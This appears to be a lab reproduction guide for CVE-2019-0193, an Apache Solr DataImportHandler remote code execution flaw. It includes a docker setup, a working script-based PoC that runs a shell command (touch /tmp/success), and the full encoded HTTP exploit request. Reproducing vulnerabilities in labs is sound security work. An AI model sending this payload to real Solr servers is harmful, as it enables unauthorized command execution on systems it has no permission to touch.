


# Apache Solr Remote Code Execution (CVE-2019-0193)

See the following references for vulnerability details:

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr is an open-source search server implemented in Java on HTTP and Apache Lucene. This vulnerability affects its optional but commonly used DataImportHandler, which extracts data from databases and other sources. The `dataConfig` request parameter can set the complete DIH configuration, including scripts, allowing a crafted request to execute commands.

## Environment

Start the environment:

```
docker compose up -d
```

After the service starts, wait briefly and visit `http://your-ip:8983/` to open the Apache Solr administration page without logging in.

## Reproduction

Select the `demo` core on the left, open the Dataimport panel, enable Debug mode, and enter the following PoC:

```
<dataConfig>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="sample"
            fileName=".*"
            baseDir="/"
            processor="FileListEntityProcessor"
            recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```



Click `Execute with this Confuguration` to send the following request:

```
POST /solr/demo/dataimport?_=1708782956647&indent=on&wt=json HTTP/1.1
Host: your-ip:8983
Content-Length: 613
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://your-ip:8983
Referer: http://your-ip:8983/solr/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

Run `docker compose exec solr ls /tmp` to enter the container and verify that `touch /tmp/success` executed:


